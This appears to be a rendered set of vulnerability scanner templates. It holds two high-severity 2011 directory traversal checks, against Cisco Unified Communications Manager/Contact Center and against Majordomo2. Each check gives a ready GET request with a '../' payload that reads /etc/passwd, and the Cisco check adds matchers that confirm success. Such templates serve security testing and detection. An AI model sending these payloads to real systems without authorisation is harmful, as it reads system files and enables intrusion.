 ## Description

- A directory traversal vulnerability in Cisco Unified Communications Manager (CUCM) 5.x and 6.x before 6.1(5)SU2, 7.x before 7.1(5b)SU2, and 8.x before 8.0(3), and Cisco Unified Contact Center Express (aka Unified CCX or UCCX) and Cisco Unified IP Interactive Voice Response (Unified IP-IVR) before 6.0(1)SR1ES8, 7.0(x) before 7.0(2)ES1, 8.0(x) through 8.0(2)SU3, and 8.5(x) before 8.5(1)SU2, allows remote attackers to read arbitrary files via a crafted URL, aka Bug IDs CSCth09343 and CSCts44049.
- severity - high
- tags - cve,cve2011,lfi,cisco,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/ccmivr/IVRGetAudioFile.do?file=../../../../../../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Majordomo2 - SMTP/HTTP Directory Traversal

## Description

- A directory traversal vulnerability in the \_list_file_get function in lib/Majordomo.pm in Majordomo 2 before 20110131 allows remote attackers to read arbitrary files via .. (dot dot) sequences in the help command, as demonstrated using (1) a crafted email and (2) cgi-bin/mj_wwwusr in the web interface.
- severity - high
- tags - cve,cve2011,majordomo2,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/cgi-bin/mj_wwwusr?passw=&list=GLOBAL&user=&func=help&extra=/../../../../../../../../etc/passwd

